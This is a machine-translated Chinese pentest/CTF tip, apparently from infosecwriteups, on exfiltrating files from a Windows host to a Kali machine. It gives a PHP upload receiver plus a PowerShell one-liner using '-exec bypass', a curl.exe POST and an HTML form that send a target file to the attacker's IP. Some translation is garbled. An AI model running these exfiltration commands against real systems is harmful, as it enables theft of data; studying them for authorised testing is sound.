

# [提示]使用 PHP 将文件从 Windows 上传到 Kali

> 原文：<https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9?source=collection_archive---------0----------------------->


# 问题

当您执行 pentest 或 CTF 时，可能会遇到需要将文件从 Windows box 传输到 Kali Linux 的情况。例如，您在 Windows box 中本地运行 Bloodhound，并需要将其输出传输到您的机器，或者您发现了非常有趣的 Microsoft Office 文件，如。多克和。xls，但当时你只有命令行权限。你可以考虑使用 PHP 脚本通过你的网络服务器上传文件。就我个人而言，我经常在玩 CTF 或 HTB 机器时使用这个。

# 解决方法

## 卡利盒

首先，创建一个 PHP 脚本`upload.php`来处理上传部分。

```
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>
```

对于 web 服务器，使用 Kali 默认自带的`Apache2`。

```
**# Running Apache2 Server**
service apache2 start
```

然后，将`upload.php`脚本放在下面的 web 目录下。

```
/var/www/html/web/       **# I added 'web' directory for demo purpose**
```

正如您从`upload.php`脚本中注意到的，我们还需要创建一个名为`uploads`的目录来收集上传的文件。在`/var/www/html/web`目录下创建它，并配置适当的所有权和写权限。

```
**# Creating 'uploads' Directory**
mkdir /var/www/html/web/uploads**# Configuring Directory Ownership with 'www-data' User**
chown www-data:www-data /var/www/html/web/uploads**# Configuring Directory with Write Permissions**
chmod 766 /var/www/html/web/uploads
```

完成所有操作后，您应该已经建立了如下所示的 web 目录:



## Windows 框

从窗盒来说很简单。我们可以使用一个性感的 PowerShell 一行程序来完成这项工作。

```
**# PowerShell**
powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/web/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile 'c:\<*Path to the Target File*>'**# Warning: If the 'Invoke' command is globally restricted, this would NOT work.**
```

或者

如果机器是 Windows 10 build 17063 或更高版本，我们可以使用`curl.exe`来使用更性感的一行程序。(最后，微软开始在 Windows :P 中加入“黑客”工具)

```
**# Curl**
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\<*Path to the Target File*>" -X POST -v [http://<*Your Kali IP*>/web/upload.php](http://10.10.14.29/php/upload.php)
```

或者

如果是没有 PowerShell 和/或`curl.exe`的旧 Windows box，我们可以创建下面的`html`文件，通过浏览器上传文件。(在我们的 web 根目录中找到这个`html`文件)

```
**# Upload.html**<html>
<head></head>
<body>
<form action="[http://<Your Kali IP>/web/upload.php](http://192.168.102.74/upload.php)" method="POST" enctype="multipart/form-data">
<br><br>
Choose A File:<br>
<input type="file" name="targetfile"><br>
<input type="submit" name="submit" value="upload">
</form>
</body>
</html>
```

尽情享受吧！

